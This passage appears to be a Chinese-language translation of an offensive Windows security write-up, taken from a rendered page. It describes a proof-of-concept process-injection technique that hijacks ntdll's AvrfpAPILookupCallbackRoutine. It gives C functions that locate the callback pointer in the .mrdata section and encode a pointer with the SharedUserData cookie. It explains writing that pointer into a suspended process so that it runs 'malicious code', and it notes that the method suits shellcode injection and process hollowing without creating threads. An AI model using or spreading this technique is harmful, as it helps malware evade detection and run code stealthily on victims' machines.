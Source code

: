 这两个变量似乎总是相距正好 8 个字节，并且顺序相同。在初始化的进程中，布局应如下所示：

offset+0x00 - ntdll!LdrpMrdataBase（设置为 .mrdata 部分的基址）

offset+0x08 - ntdll!LdrpKnownDllDirectoryHandle（设置为非零值）

offset+0x10 - ntdll!AvrfpAPILookupCallbacksEnabled（设置为零）

offset+0x18 - ntdll!AvrfpAPILookupCallbackRoutine（设置为零）

我们可以在自己的进程中扫描 .mrdata 部分，以查找包含该部分基址的指针，然后之后的第一个 NULL 值将是 AvrfpAPILookupCallbackRoutine。

```bash
ULONG_PTR find_avrfp_address(ULONG_PTR mrdata_base) {
    ULONG_PTR address_ptr = mrdata_base + 0x280;  //the pointer we want is 0x280+ bytes in
    ULONG_PTR ldrp_mrdata_base = NULL;

    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == mrdata_base) {
            ldrp_mrdata_base = address_ptr;
            break;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }

    address_ptr = ldrp_mrdata_base;

    // AvrfpAPILookupCallbackRoutine should be the first NULL pointer after LdrpMrdataBase
    for (int i = 0; i < 10; i++) {
        if (*(ULONG_PTR*)address_ptr == NULL) {
            return address_ptr;
        }
        address_ptr += sizeof(LPVOID);  // skip to the next pointer
    }
    return NULL;
}
```

## 第 2 步：设置回调以调用我们的恶意代码

设置回调的最简单方法是在挂起状态下启动我们自己的进程的第二个副本。由于 ntdll 在每个进程中都位于相同的地址，因此我们只需要在自己的进程中找到回调指针即可。一旦我们的进程启动但处于挂起状态，我们就可以使用 WriteProcessMemory() 来设置指针。

我们还可以将这种技术用于进程空心化、shellcode 注入等，因为它允许我们在不创建或劫持线程或排队 APC 的情况下执行代码。但对于这个 PoC，我们将保持简单。

注意：由于许多 NTDLL 指针都是加密的，因此我们不能只设置指向目标地址的指针。我们必须先加密它。幸运的是，密钥是相同的值，并且存储在所有进程中的同一位置。

```bash
LPVOID encode_system_ptr(LPVOID ptr) {
    // get pointer cookie from SharedUserData!Cookie (0x330)
    ULONG cookie = *(ULONG*)0x7FFE0330;

    // encrypt our pointer so it'll work when written to ntdll
    return (LPVOID)_rotr64(cookie ^ (ULONGLONG)ptr, cookie & 0x3F);
}
```
